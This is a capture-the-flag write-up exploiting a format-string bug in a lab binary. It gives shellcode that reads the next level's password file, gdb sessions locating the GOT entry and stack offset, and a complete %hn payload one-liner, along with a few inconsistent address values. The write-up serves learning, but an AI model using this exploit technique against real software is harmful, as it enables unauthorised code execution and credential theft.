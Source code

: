 # Level05 GOT hijacking and Format String

## Overview

The binary is a very simple program that converts the uppercase letters of the input to lowercase and then executes the string directly with `printf(s)`, allowing a **format string attack**. However, it terminates the program with an `exit(0)`, so we cannot redirect the flow of the program by modifying the `EIP`. So we just need to overwrite the **Global Offset Table** `exit` address to the address of a **shellcode** that we store in an environment variable (`envp`).

### Main Function

```C
int main(int argc, const char **argv, const char **envp)
{
  char s[100];

  fgets(s, 100, stdin);
  for (int i = 0; i < strlen(s); ++i )
  {
    if ( s[i] >= 'A' && s[i] <= 'Z' )  // If uppercase letter
      s[i] ^= 0x20u;                   // Convert to lowercase
  }
  printf(s);
  exit(0);
}
```

## Payload

### Shellcode

We are going to use a simple `cat /home/users/level06/.pass` Shellcode:
```C
cat /home/users/level06/.pass = 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"
```
Exporting it in an environment variable.
```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'
```

#### Address

To find out the address of our shellcode, we need to open the program with `gdb` and search it in the environment addresses.

```bash
(gdb) break main
Breakpoint 1 at 0x8048449
(gdb) run
Breakpoint 1, 0x08048449 in main ()
(gdb) x/200s environ 
...
0xffffd890:	 "SHELLCODE=1\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"
...
(gdb) x/s 0xffffd890 + 10
0xffffd89a:	 "1\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"
```

The address of our *shellcode* is: `0xffffd89a`.

### `exit` in the *Global Offset Table*

Now we also need the `exit` address inside the **GOT**.

```bash
(gdb) disassemble exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0   <========
             ^^^^^^
   ...
End of assembler dump.
```

The `exit` address in the **GOT** is `0x80497e0`.

### `printf` Arguments Offset

Now we need to find out in which position in the **stack** our input `buffer` is, to use it in our **format string attack**.

We are goin to use this as an input.

```
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x
```

#### Breakpoint after `fgets`
We put a breakpoint after receiving the input to print the `buffer` in hexadecimal.
```bash
(gdb) set disassembly-flavor intel 
(gdb) disassemble main 
Dump of assembler code for function main:
    ...
    0x08048475 <+49>:	call   0x8048350 <fgets@plt>
    0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
    ...
(gdb) break *0x0804847a
Breakpoint 1 at 0x804847a
(gdb) run
Starting program: /home/users/level05/level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x

Breakpoint 1, 0x0804847a in main ()
```

##### Buffer in Hexadecimal
The buffer is stored on the `EAX` register.
```
(gdb) x/8xw $eax
0xffffd688:	0x61616161	0x20782520	0x25207825	0x78252078
0xffffd698:	0x20782520	0x25207825	0x78252078	0x20782520
```
##### Output for Comparison
```
(gdb) continue
Continuing.
aaaa 64 f7fcfac0 f7ec3b11 ffffd6af ffffd6ae 0 ffffffff ffffd734 0 [61616161 20782520 25207825 78252078]
```
As we can see, our input `buffer` is on the **10th** position in the stack.

### Payload Construction

#### Recapitulation

| Shellcode Address | Exit GOT Address |
|-------------------|------------------|
| `0xffffd89a`      | `0x80497e0`      |
| `4294957210`      |                  |
| 

Using the typical format specifier `%n` (saves the number of printed characters in the address of the argument) would be too impractical because it would require to print `4294957210` characters. So we have to split this process at least in 2 (writing `short` by `short`, with `%hn`).

```bash
0xffffd8df = ffff  & d89a
0xffffd8df = 65535 & 55450
addr[2]    = 65535 , 55450
````

##### Splitting script
```bash
split_addr() {
    address="$1"
    half1="${address:0:4}"
    half2="${address:4}" 

    int1=$((0x$half1))
    int2=$((0x$half2))

    echo "$address splits into:"
    echo "$half1 -> $int1"
    echo "$half2 -> $int2"
    echo "n1 = $(($int2 - 8))"
    echo "n2 = $(($int1 - $int2))"
}

$ split_addr ffffd89a
ffffd89a splits into:
ffff -> 65535
d89a -> 55450
n1 = 55442
n2 = 10085
```

#### Format String

```
<Exit GOT Address><Exit GOT Address + 2><addr[1] - 8>d<%10$hn><addr[0]-addr[1]>
```
```
0x80497e0 0x80497e2 (55450-8)d%10$hn (65535-55450)d%10$hn
0x80497e0 0x80497e2 55442d%10$hn 10085d%10$hn
```

```
cat <(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55442d%10\$hn' + '%10085d%11\$hn'") - | ./level05
```
